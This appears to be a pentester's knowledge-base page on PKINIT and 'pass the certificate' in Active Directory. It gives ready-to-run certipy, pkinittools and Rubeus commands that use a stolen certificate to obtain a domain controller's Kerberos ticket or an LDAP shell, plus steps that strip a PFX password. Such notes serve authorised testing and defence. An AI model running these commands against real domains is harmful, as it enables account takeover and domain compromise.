 ```yaml
---
title: PKINIT
---
```


PKINIT or Public Key Cryptography for Initial Authentication is a [[notes/ad/kerberos]] extension for asymmetric, certificated-based pre-authentication.
If you have a users private key and certificate you can obtain a [[notes/ad/kerberos-tgt]] for that user.

Requirements:

- The certificate SAN must contain the UPN of a user or the FQDN of a computer.
- The *ExtendedKeyUsage* (EKU) extension must contain one of the following *Object Identifiers* (OIDs) ([source](https://web.archive.org/web/20221118210651/https://scribe.rip/@specterops/certified-pre-owned-d95910965cd2)):
    - Client Authentication (1.3.6.1.5.5.7.3.2)
    - PKINIT Client Authentication (1.3.6.1.5.2.3.4)
    - Smartcard Logon (1.3.6.1.4.1.311.20.2.2)
    - Any Purpose (2.5.29.37.0)
    - SubCA (no EKU present)
- The certificate of the issuing CA must be part of the `NTAuth` container.

References:

- [Anomaly detection in certificate-based TGT requests](http://web.archive.org/web/20230804175159/https://securelist.com/anomaly-detection-in-certificate-based-tgt-requests/110242/)
- [thehacker.recipes/ad/movement/kerberos/pass-the-certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate)

# Pass the Certificate

=== "[[notes/tools/certipy]]"
    ~~~ bash
    certipy auth -no-hash -pfx ./dc01.pfx
    export KRB5CCNAME=$PWD/dc01.ccache
    ~~~

=== "[[notes/tools/pkinittools]]"
    ~~~ bash
    pkinittools-gettgtpkinit -cert-pfx ./dc01.pfx 'corp.com/dc01$' ./dc01.ccache
    export KRB5CCNAME=$PWD/dc01.ccache
    ~~~

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe asktgt /nowrap /user:dc01$ /certificate:%base64_pfx%
    ~~~

> **Note:**
>
> If `certipy` fails try `pkinittools` instead.
> If the authentication fails with `KDC_ERROR_CLIENT_NOT_TRUSTED` try a different DC ([source](https://twitter.com/Bandrel/status/1706341579911319936)).
> If authentication keeps failing maybe *Strong Certificate Mapping* is enforced and the user SID must be added to the certificate.
> See [Lord of the SID: How to add the objectSID attribute to a certificate manually](https://web.archive.org/web/20230330160919/https://elkement.blog/2023/03/30/lord-of-the-sid-how-to-add-the-objectsid-attribute-to-a-certificate-manually/) for details.

Remove password from PFX file.

=== "[[notes/tools/certipy]]"
    ~~~ bash
    certipy cert -pfx ./admin.pfx -password 'passw0rd' -export -out ./admin-unprotected.pfx
    ~~~

Combine private key and certificate into a PFX file.

~~~ bash
echo $cert | base64 -d > ./cert.pem
echo $key | base64 -d >> ./cert.pem
openssl pkcs12 -in ./cert.pem -keyex -CSP 'Microsoft Enhanced Cryptographic Provider v1.0' -export -out ./cert.pfx
~~~

# LDAP SChannel

If PKINIT is not configured you can still get a LDAP shell.

=== "[[notes/tools/certipy]]"
    ~~~ bash
    certipy auth -ldap-shell -pfx ./dc01.pfx
    ~~~

Untested tools:

- [PassTheCert.py](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)

References:

- [Supply in the Request Shenanigans](http://web.archive.org/web/20221130213151/https://blog.qdsecurity.se/2020/09/04/supply-in-the-request-shenanigans/), use client certificate to authenticate against LDAP with StartTLS
- [Pass the Cert: Authenticating with certificates when PKINIT is not supported](http://web.archive.org/web/20221130213213/https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)
